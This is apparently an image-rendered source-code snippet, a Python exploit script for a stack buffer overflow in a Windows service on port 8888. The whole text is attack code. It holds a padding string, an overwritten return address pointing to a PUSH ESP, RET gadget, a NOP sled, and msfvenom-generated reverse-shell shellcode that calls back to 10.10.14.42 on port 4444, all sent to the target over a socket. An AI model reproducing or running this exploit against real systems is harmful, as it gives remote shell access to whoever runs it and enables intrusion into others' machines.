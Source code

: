 ```
padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.42 LPORT=4444 -b '\x00\x0A\x0D' -v payload -f python
payload =  b""
payload += b"\xb8\xbd\xb5\xf0\x16\xda\xc8\xd9\x74\x24\xf4\x5a"
payload += b"\x2b\xc9\xb1\x52\x31\x42\x12\x03\x42\x12\x83\x57"
payload += b"\x49\x12\xe3\x5b\x5a\x51\x0c\xa3\x9b\x36\x84\x46"
payload += b"\xaa\x76\xf2\x03\x9d\x46\x70\x41\x12\x2c\xd4\x71"
payload += b"\xa1\x40\xf1\x76\x02\xee\x27\xb9\x93\x43\x1b\xd8"
payload += b"\x17\x9e\x48\x3a\x29\x51\x9d\x3b\x6e\x8c\x6c\x69"
payload += b"\x27\xda\xc3\x9d\x4c\x96\xdf\x16\x1e\x36\x58\xcb"
payload += b"\xd7\x39\x49\x5a\x63\x60\x49\x5d\xa0\x18\xc0\x45"
payload += b"\xa5\x25\x9a\xfe\x1d\xd1\x1d\xd6\x6f\x1a\xb1\x17"
payload += b"\x40\xe9\xcb\x50\x67\x12\xbe\xa8\x9b\xaf\xb9\x6f"
payload += b"\xe1\x6b\x4f\x6b\x41\xff\xf7\x57\x73\x2c\x61\x1c"
payload += b"\x7f\x99\xe5\x7a\x9c\x1c\x29\xf1\x98\x95\xcc\xd5"
payload += b"\x28\xed\xea\xf1\x71\xb5\x93\xa0\xdf\x18\xab\xb2"
payload += b"\xbf\xc5\x09\xb9\x52\x11\x20\xe0\x3a\xd6\x09\x1a"
payload += b"\xbb\x70\x19\x69\x89\xdf\xb1\xe5\xa1\xa8\x1f\xf2"
payload += b"\xc6\x82\xd8\x6c\x39\x2d\x19\xa5\xfe\x79\x49\xdd"
payload += b"\xd7\x01\x02\x1d\xd7\xd7\x85\x4d\x77\x88\x65\x3d"
payload += b"\x37\x78\x0e\x57\xb8\xa7\x2e\x58\x12\xc0\xc5\xa3"
payload += b"\xf5\xe5\x13\xa5\x2f\x92\x21\xb9\x3e\x3e\xaf\x5f"
payload += b"\x2a\xae\xf9\xc8\xc3\x57\xa0\x82\x72\x97\x7e\xef"
payload += b"\xb5\x13\x8d\x10\x7b\xd4\xf8\x02\xec\x14\xb7\x78"
payload += b"\xbb\x2b\x6d\x14\x27\xb9\xea\xe4\x2e\xa2\xa4\xb3"
payload += b"\x67\x14\xbd\x51\x9a\x0f\x17\x47\x67\xc9\x50\xc3"
payload += b"\xbc\x2a\x5e\xca\x31\x16\x44\xdc\x8f\x97\xc0\x88"
payload += b"\x5f\xce\x9e\x66\x26\xb8\x50\xd0\xf0\x17\x3b\xb4"
payload += b"\x85\x5b\xfc\xc2\x89\xb1\x8a\x2a\x3b\x6c\xcb\x55"
payload += b"\xf4\xf8\xdb\x2e\xe8\x98\x24\xe5\xa8\xa9\x6e\xa7"
payload += b"\x99\x21\x37\x32\x98\x2f\xc8\xe9\xdf\x49\x4b\x1b"
payload += b"\xa0\xad\x53\x6e\xa5\xea\xd3\x83\xd7\x63\xb6\xa3"
payload += b"\x44\x83\x93"


overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```
